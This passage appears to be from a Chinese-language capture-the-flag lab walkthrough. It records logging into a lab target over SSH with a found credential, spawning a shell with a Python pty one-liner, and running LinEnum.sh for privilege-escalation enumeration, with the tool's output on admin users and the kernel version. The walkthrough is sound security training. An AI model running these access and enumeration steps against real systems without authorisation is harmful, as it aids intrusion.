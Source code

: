 发现用户凭据：dark:qwerty1234#!hackme

重启了一下Lab:

Target IP Address : 10.10.111.29

Kali Linux : 10.18.72.222

以dark用户身份ssh登录目标主机

```
┌──(root㉿kali)-[~/Downloads]
└─# ssh dark@10.10.111.29         
The authenticity of host '10.10.111.29 (10.10.111.29)' can't be established.
ED25519 key fingerprint is SHA256:8bd9QsiWgYCCiNEifxZv+F0jblZZnuBhOKgM6saFGCE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.111.29' (ED25519) to the list of known hosts.
dark@10.10.111.29's password: 
Last login: Tue Jul 28 20:27:25 2020 from 192.168.85.142
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
dark@ubuntu:~$ whoami
dark
dark@ubuntu:~$ id
uid=1001(dark) gid=1001(dark) groups=1001(dark)
dark@ubuntu:~$ pwd
/home/dark
dark@ubuntu:~$ ls -al
total 28
drwxr-xr-x 2 dark dark 4096 Jul 28  2020 .
drwxr-xr-x 4 root root 4096 Jul 28  2020 ..
-rw------- 1 dark dark   26 Jul 28  2020 .bash_history
-rw-r--r-- 1 dark dark  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dark dark 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dark dark  655 May 16  2017 .profile
-rwxrwxrwx 1 dark dark   24 Jul 28  2020 credentials.txt
```

上传LinEnum.sh并执行：

```
[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(alison) gid=1000(alison) groups=1000(alison),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

```
[+] It looks like we have password hashes in /etc/passwd!
#/home/dark/credentials.txt
```

```
[-] Kernel information:
Linux ubuntu 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.4.0-186-generic (buildd@lcy01-amd64-002) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12) ) #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.6 LTS"
NAME="Ubuntu"
```